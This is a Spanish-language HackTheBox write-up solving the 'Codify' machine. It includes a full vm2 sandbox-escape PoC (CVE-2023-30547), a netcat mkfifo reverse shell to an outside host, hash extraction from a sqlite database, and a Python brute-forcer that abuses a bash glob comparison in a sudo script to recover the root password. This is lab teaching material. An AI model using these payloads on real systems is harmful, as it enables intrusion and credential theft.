

En este articulo estaremos resolviendo la maquina **codify** de **hackthebox**
<br><br>

* * *

## [](#Escaneo)Reconocimiento

Empezamos el reconocimiento con un escaneo de puertos con la herramienta **nmap** 


Vemos algunos puertos abiertos, podemos ver el puerto 80, lo que nos dice que hay un servicio web al que hecharemos un ojo mas tarde.

Buscaremos un poco mas de informacion corriendo un escaneo con nmap para detectar la version y servicio que corren bajo estos puertos.


Vemos que no sigue el redirect, esto es por que hay que agregar el objetivo al archivo /etc/hosts


Bien, Veamos lo que hay en la pagina web.


Vemos que es una especie de compilador online para node.js, veamos si encontramos algo mas interesante...
<br><br><br>
* * *
<br><br>
## [](#Access-1)Primer Acceso


Navegando un poco por la pagina vemos que hay una nota que dice que la pagina usa una libreria llamada vm2, y si seguimos el enlace nos deja ver la version de esta libreria que se esta usando.


<br><br>

Buscando en internet encontre que esta libreria era vulnerable, y se podia aprovechar de una falla en la logica de sanitizacion para ganar **Ejecucion Remota de comandos(RCE)**, la vulnerabilidad es la [CVE-2023-30547](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).

viendo esta vulnerabilidad, encontramos un PoC que probaremos en el editor de la pagina para ver si nos funciona, el PoC es el siguiente:
```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```
<br><br>


Usamos el PoC que conseguimos y en la parte resaltada en la imagen de arriba, es en donde inyectaremos el comando que querramos ejecutar, al hacer un par de pruebas nos damos cuenta de que si funciona y hemos conseguido ejecucion remota de comandos.

> Es hora de entablarnos una reverse shell.

Para esto hay muchas maneras diferentes y muchos payloads que podemos utilizar, te recomiendo hechar un vistaso a [esta](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) pagina, en esta hay muchas maneras de entablarse reverse shells con diferentes herramientas.

En este caso yo usare esta:
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```


<br><br><br>
* * *
<br><br>
## [](#Access-2)Flag 1

Hemos conseguido acceso a la maquina, ahora, nos toca hacerle tratamiento a la tty, para poder estabilizar la shell y tener una shell interactiva.

podemos hacer esto ejecutando los siguientes pasos:

1. Ejecutamos el comando `script /dev/null -c bash`
2. Ponemos la conexion es segundo plano con ctrl + z
3. Ejecutamos el comando `stty raw -echo; fg`
4. Escribimos "reset"
5. Definimos el tipo de terminal con `export TERM=xterm`
6. Definimos el tipo de shell con `export SHELL=bash`

listo, ahora deberiamos tener una shell interactiva en la que podamos movernos comodamente y hacer ctrl + l, o ctrl + c sin perder la shell.

<br><br>

Navegando un poco por el sistema encontre un archivo interesante:


Lo descargare en mi sistema para poder analizarlo mejor


Viendo el tipo de archivo veo que es una base de datos sqlite, usare una herramienta online para ver el contenido de esta.

La herramienta que use es [esta](https://sqliteviewer.app/)


Pues aqui claramente podemos apreciar el nombre de usuario que habiamos visto de antes y un hash, que corresponde al password de este usuario.

al crackear este hash y obtener el password, podremos logearnos al sistema como el usuario joshua, a travez de ssh.




<br><br><br>
* * *
<br><br>
## [](#Access-root)Escalado de privilegios

Ya conseguimos nuestra primera flag, llegados a este punto solo queda escalar privilegios, para esto podriamos usar herramientas como Linpeas o LinEnum, pero veamos que podemos conseguir por nuestra cuenta, primero veamos si podemos ejecutar algun comando como root.


Y miren lo que encontramos, vemos que podemos correr un script llamado mysql-backup.sh

veamos que contiene este script:


Analizando el script pude encontrar ciertas practicas inseguras, en el condicional la comparacion esta declarada dentro de doble llaves [[]] esto es inseguro por que al estar declarada de esta manera, puede interpretar expresiones regulares, lo que aprovecharemos nosotros para poder conseguir la contrasena, para esto usaremos un programa en python3.

```python
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```
Corremos este programa en la maquina victima, y de esta manera obtendremos la contrasena de el usuario root y podremos hacer `su root` para poder obtener acceso privilegiado al sistema.


<br><br><br>
* * *
<br><br>
## [](#Conclusion)Conclusion

Esta fue la maquina **Codify** de hackthebox, espero te fuera de ayuda este writeup, nos vemos en la siguiente maquina!!
<br><br><br>

<style>
img {
    border-radius: 30px;
}
</style>
